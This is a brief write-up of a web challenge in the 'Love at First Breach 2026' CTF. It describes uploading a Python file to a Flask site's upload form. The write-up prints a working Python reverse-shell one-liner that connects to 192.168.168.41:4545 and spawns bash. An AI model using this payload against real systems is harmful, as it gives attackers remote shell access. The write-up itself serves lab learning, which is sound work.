



A web room of `Love at First Breach 2026` CTF.
Visited the website. And found a File upload option. 

The technology used is python flask.

So I upload a python reverse shell with `shell.py` file.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.168.41",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
But it was not staying log time. So for the flag I have to make it quick.

